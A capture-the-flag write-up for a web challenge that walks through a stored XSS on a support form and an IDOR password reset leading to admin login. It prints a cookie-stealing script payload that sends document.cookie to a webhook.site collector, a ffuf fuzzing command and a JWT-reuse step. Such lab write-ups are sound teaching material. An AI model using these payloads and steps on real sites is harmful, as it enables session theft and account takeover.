# Web - Kryptos Support

## Description
> The secret vault used by the Longhir's planet council, Kryptos, contains some very sensitive state secrets that Virgil and Ramona are after to prove the injustice performed by the commission. Ulysses performed an initial recon at their request and found a support portal for the vault. Can you take a look if you can infiltrate this system?

<br>
<br>

## Walkthrough

There was no challenge code to download for this challenge, just a web instance.

I looked at the challenge and saw the following.



__Kryptos Vault Support__, a page where we can send reports, which I did as a test.



We are told that our ticket is being checked by an admin.

Furthermore, if we click on __Backend__ at the top left, we see a login portal.



<br>
<br>

### Exploitation 1 - XSS

Well, since we are told that our user input is being viewed by someone and is probably being acted upon in the background by a bot, the first thing I thought of was to try __cross site scripting__.

I searched for a few simple XSS payloads to steal cookies.

I used [webhook.site](https://webhook.site) to receive the cookie and luckily it was the first best payload I took that worked:

__Payload:__

```html
<script>var i=new Image;i.src="https://webhook.site/<REDACTED>/?"+document.cookie;</script>
```

I waited briefly and saw on webhook.site that this actually worked and got a cookie.



To be more precise, a __JWT__!

I briefly decoded the __JWT__ on [jwt.io](https://jwt.io) and saw a username `moderator` with a user ID `100`.



I tried to crack the JWT with hashcat, but this only failed.

So I intercepted a login attempt and tried to set my JWT as a cookie header, but this did not work.

Nothing special happened on the URL Base Path `/` either.

Enumeration is key!

I left that out at the beginning and jumped too quickly to the first exploitation.

So I fuzzed with a small word list `common.txt` from __seclists__ for further URL paths and found what I was looking for.

__Command:__ `ffuf -u http://94.237.63.93:45747/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt`



So I tried again at `/admin`.

I set Burp Proxy to __Intercept On__, called `/admin`, set the JWT into a Cookie HTTP header field...



...and saw a redirect to `tickets`.



Forward again and I was logged in as __moderator__ in the backend.



But no flag yet...

<br>
<br>

### Exploitation 2 - IDOR

At the top left we see a menu __Settings__ which I looked at and found an option to change our password.



Which of course I did immediately.



Great, we were now able to change our password as __moderator__.

Can we also do this with other users if?

We have a `uid`...

So let's send the request to Burp's __Repeater__ and give it a try.

Starting with `uid:0` it didn't work and only got a "The user doesn't exist!" in the response.

But with `uid:1` it seemed to work.



I now logged in as user `admin` with the password I had set and got the flag!


